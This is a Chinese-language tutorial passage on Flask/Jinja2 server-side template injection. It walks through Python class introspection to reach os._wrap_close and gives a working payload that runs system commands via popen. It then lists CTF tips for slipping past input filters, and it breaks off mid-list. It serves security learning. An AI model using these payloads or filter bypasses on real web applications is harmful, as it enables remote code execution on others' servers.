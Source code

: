 可以看到返回了(<class 'str'>, <class 'object'>)，同样可以找到object类，正是由于这些但不仅限于这些方法，我们才有了各种沙箱逃逸的姿势。正如上面的解释，**mro**返回了解析方法调用的顺序，将会打印两个。在flask ssti中poc中很大一部分是从object类中寻找我们可利用的类的方法。我们这里只举例最简单的。接下来我们增加代码。接下来我们使用subclasses,**subclasses**() 这个方法，这个方法返回的是这个类的子类的集合，也就是object类的子类的集合。

```
print("".__class__.__bases__[0].__subclasses__())
```

```
print("".__class__.__bases__[0].__subclasses__()[133])
```

接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。这里开始我们不再用pycharm打印了，直接利用上面我们已经搭建好的漏洞环境来进行测试。通过我们在如上这么多类中一个一个查找，找到我们可利用的类，这里举例一种。<class 'os._wrap_close'>，os命令相信你看到就感觉很亲切。我们正是要从这个类中寻找我们可利用的方法，通过大概猜测找到是第119个类，0也对应一个类，所以这里写[133]。可以用 editplus 替换 , 为 \n 再看行数，看数组

```
?XXX={{"".__class__.__bases__[0].__subclasses__()[133]}}
```

此时我们可以在网页上看到各种各样的参数方法函数。我们找其中一个可利用的function popen，在python2中可找file读取文件，很多可利用方法，详情可百度了解下

```
{{"".__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('dir').read()}}
```

<img src="图片\Snipaste_2023-01-28_16-35-10.png" alt="Snipaste_2023-01-28_16-35-10" style="zoom:67%;" />

### ctf中的一些绕过tips

没什么系统思路。就是不断挖掘类研究官方文档以及各种能够利用的姿势。这里从最简单的绕过说起。

1.过滤[]等括号

使用gititem绕过。如原 poc `{{"".class.bases[0]}}`

绕过后 `{{"".class.bases.getitem(0)}}`

2.过滤了subclasses，拼凑法

原 poc {`{"".class.bases[0].subclasses()}}`

绕过 {{"".class.bases[0]['**subcla'+'sses**'](https://xz.aliyun.com/t/3679)}}

3.过滤class
